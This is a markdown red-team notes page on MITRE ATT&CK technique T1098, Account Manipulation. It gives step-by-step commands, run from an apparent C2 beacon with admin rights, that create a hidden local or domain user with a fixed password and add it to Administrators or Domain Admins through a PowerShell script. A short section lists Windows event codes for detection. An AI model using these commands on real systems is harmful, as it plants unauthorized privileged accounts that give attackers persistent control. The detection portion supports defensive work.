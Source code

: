 # [Account Manipulation](https://attack.mitre.org/techniques/T1098/)

## **LOCAL USER Exploit syntax:**
1. Get a beacon with local/domain administrative privileges.

2. In parrot open a blank text file and paste the following commands into it based on if you want a domain or local user
    ### Local user
    ```cmd
    net user /add Gearhead Squanch123;
    net localgroup administrators /add Gearhead;
    ```
    ### Domain User (make sure you have domain admin creds)
    ```cmd
    net user /add Gearhead Squanch123 /domain; 
    net group "Domain Admins" /add Gearhead /domain;
    ```

3. Save the file with as `Pencilvester.ps1` to `/tmp`

4. Run
	```sh
	sudo chmod +x /tmp/Pencilvester.ps1
	```

5.  In posh, run
    ```powershell
	pslo /tmp/Pencilvester.ps1
    ```
> **NOTE:** that the above .ps1 file syntax and be modified to change the users password, delete the user, added to a different group(using net localgroup), etc
---

## **Detection Technique:**
* Monitor windows events related to account manipulation

* Winlogbeat:
    * Monitor `net.exe` and `net1.exe` processes
    * Monitor the following event codes: 
        * 4720: Added user account
    
        * 4726: Deleted user account
    
        * 4738: Modified user account such as password change
    
        * 4732: Added user account to Administrators group
    
        * 4733: Deleted user account from Administrators group
    
    
    
